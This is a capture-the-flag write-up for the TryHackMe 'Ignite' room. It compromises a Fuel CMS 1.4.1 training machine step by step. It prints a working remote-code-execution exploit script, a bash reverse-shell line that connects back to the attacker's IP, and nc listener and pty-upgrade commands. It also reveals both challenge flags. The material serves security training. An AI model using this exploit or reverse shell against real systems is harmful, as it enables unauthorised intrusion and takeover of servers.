 # Ignite

![logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/bd001816-10a2-47d1-a383-7be389a99ca8)

## Enumeration

We use `nmap` to scan the target :

```bash
nmap -sT -sV 10.10.128.117
```

opening the browser on machine IP will show some information :

![firstPage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/c8c00347-73c8-4ef9-926d-d29fa78eef2b)

with some extra information showing the location of config files :

![configFiles](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/5686dbcd-c9f4-4a27-8951-666f078f27d1)

as it is obvious the username and password for logging in is `admin:admin`

in the CMS itself there is no way to upload a file (at least i tried verious extensions) but none of the worked.

i decided to search for `fuel cms` exploit wtih `searchsploit` :

```bash
searchsploit fuel cms
```

![searchsploit](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e6947bc4-4829-446a-9b3e-11427b29f5da)

it shows that version `1.4.1` has remote code execution vulnerability, so download the exploit `47138.py` from exploit-db.com

![exdb](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/8eb1c17c-2b47-45d9-9b31-21f70afae927)

from the original code you need to change afew things :

![code](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/83f8a4b2-8d98-441c-bf2d-f91eab06ca6f)

```md
1.Change the url to machine IP address
2.Comment out the proxy line
3.Remove the proxies=proxy parameter
```

the final code should be like this :

```python
import requests
import urllib

url = "http://10.10.128.117:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        #proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

## Getting Shell

Now execute it with `python2`, it gives you a `cmd` that you can run command with it, for example `ls` :

![cmd](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/38c85ca2-99ba-4550-8d9e-c27429a5a6d3)

you just need to upload your reverse shell to the target so i used bash revshell and saved it to a file call `r.sh` :

```bash
bash -i >& /dev/tcp/10.6.74.10/4444 0>&1
```

use python to make the file downloadable for the target :

```python
pythn3 -m http.server 8080
```

and get the file from the victim :

![wget](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/2edb533f-3dab-4211-bc39-eaa5971276f1)

after downloading the file on the victim now its time to execute it, first listen on your desired port with `nc` like `nc -nvlp 4444` :

![bash](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/08309f4c-f1bf-494c-ae17-c607353db37e)

navigate to `/home/www-data` and cat the `flag.txt` file, this is your first flag :

```bash
cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

## Privilege Escalation

You can do multiple things here for example uploading `Linpeas.sh` on the target but if you remember from the first page of the site where

it showed multiple configuration files in `fuel/application/config` directory, let's explore this directory to find anything interesting :

![dir](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e3b999aa-57d2-482f-8af1-e9d13a3ac709)

cat the content of `database.php`

![database](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/a2c3f076-3b7f-4195-b1d0-c11800813c11)


yes, the root password is here, we just need to switch to `root` account.

but if we use `su root` we get and error saying `su: must be run from a terminal`

so we first need to escalate the terminal, to do this use the code below :

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
now use `su root` and provide the password.

cat the content of `/root/root.txt` :

```bash
cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```

this is the end of Ignite challenge :)
